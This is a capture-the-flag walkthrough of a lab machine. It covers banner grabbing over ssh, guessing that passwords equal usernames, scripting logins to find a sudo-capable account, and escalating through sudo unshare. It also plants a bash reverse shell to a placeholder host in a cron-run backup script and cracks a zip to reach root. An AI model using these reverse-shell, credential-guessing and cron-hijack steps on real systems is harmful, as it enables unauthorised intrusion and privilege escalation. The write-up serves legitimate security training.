This one's a little messed up. There are 2 flags here user and root.

Doing a nmap scan we see there are 3 ports http/80, http/8000, ssh/22.

Now we can try to scan http/80 for something but that will give us nothing. It is on big rabbit hole. But http/8000 is ajenti login portal.

There is no way of enumerating users and passwords here so we have to exploit this using ssh port.

This requires something called banner grabbing. For that we can just try and login as any user. 

__ssh target_ip__ --> Here in the banner we see username format for different users.

```
Hi !!! THIS MESSAGE IS ONLY VISIBLE IN OUR NETWORK :) 

   ___      _        ___                    
  / __|__ _(_)_ _   | _ \_____ __ _____ _ _ 
 | (_ / _` | | ' \  |  _/ _ \ V  V / -_) '_|
  \___\__,_|_|_||_| |_| \___/\_/\_/\___|_|  
                                            

I HOPE EVERYONE KNOW THE JOINING ID CAUSE THAT IS YOUR USERNAME : ie : employee1 employee2 ... ... ... so on ;)

I already told the format of password of everyone in the yesterday's metting.

Now i have configured everything. My request is to everyone to Complete assignments on time 

btw one of my employee have sudo powers because he is my favourite 

NOTE : "This message will automatically removed after 2 days" 
                                                                - BOSS
```        
We try logging using employee1:employee1. And we're in. So probably all users have username as their password.

Also the line _one of my employee have sudo powers because he is my favourite_ is interesting.

We can write a script to login as employees and run the command __sudo -l__ and scout the output.

After running the script for sometime we get that employee64 can run sudo commands as user programmer.

Logging in as him still we can't find anything significant in all his directories. So we download pspy64 onto the server and run that to see if there are any cronjobs running in the background. 

We see that there is a script running in the background in programmer dir. So we need to login as him to access it to change it.

__sudo -u programmer /usr/bin/unshare__ --> Now we are logged as programmer so we can change the script running in the background.

```
2020/12/17 10:12:02 CMD: UID=1183 PID=3796   | /bin/bash /media/programmer/scripts/backup.sh 
```
We see that this script runs as UID=1183 which is not the UID of programmer. We can find out who it is by running a simple command.

__cat /etc/passwd | grep -e "UID=1183"__

We see that user 1183 is vanshal. so we can get a shell as vanshal if we add a bash reverse shell script to the backup.sh file and listen on another port.

__bash -i >& /dev/tcp/host_ip/port 0>&1__ --> added in backup.sh

Note: we can't use nano because it's not on this machine we have to use vim editor.

# After we get a shell we got the first flag in local.txt.

We can run python2 on this so let's start a http server and download the secret.zip file onto our system.

__python -m SimpleHTTPServer 4445__ --> Port number can be anything that's not already in use by the system.

After downloading the file we can [crack the password using john the ripper](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html).

We find that password to zip file is ___81237900___. Opening that we get a very secure password in Mypassword.txt file.

This might be the password for that ajenti login running on port 8000. And yes, it is.

___root: contents of Mypasswords.txt___

Now here on the website we see a tab saying terminal. Going to it we see we have a root terminal shell.

# We can change into the root directory and read the proof.txt

And That's it.
